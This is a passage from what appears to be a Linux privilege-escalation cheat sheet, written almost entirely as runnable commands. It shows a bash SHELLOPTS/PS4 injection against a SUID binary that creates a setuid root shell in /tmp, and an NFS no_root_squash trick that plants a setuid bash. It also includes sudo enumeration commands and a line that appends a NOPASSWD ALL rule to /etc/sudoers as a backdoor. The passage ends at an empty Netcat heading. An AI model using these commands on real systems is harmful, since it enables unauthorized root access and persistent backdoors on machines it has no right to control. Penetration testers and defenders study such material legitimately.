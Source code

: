 ### 3)
```
$ /bin/bash --version
# Version need to be less than 4.4

$ ls -lah /suid/binary
-rwsr-sr-x 1 root staff 6.8K May 14  2017 /suid/binary

$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /suid/binary
$ /tmp/rootbash -p
```

### 4)
```
# Remote target with "no_root_squash,insecure" NFS flags enabled
# Remote target with /home/user mounted in host /tmp/mnt

# Run in target
$ cp /bin/bash /home/user/bash

# Run in host
$ sudo chown root:root /tmp/mnt/bash
$ sudo chmod 4777 /tmp/mnt/bash

# Run in target
$ /home/user/bash -p
```

# Sudo

### List Policy
```
sudo -l
```

### Run as User
```
sudo -u {USER} {COMMAND}
```

# Sudoers

```
# {USER} ALL=(ALL) NOPASSWD: ALL
echo "{USER} ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

# Netcat
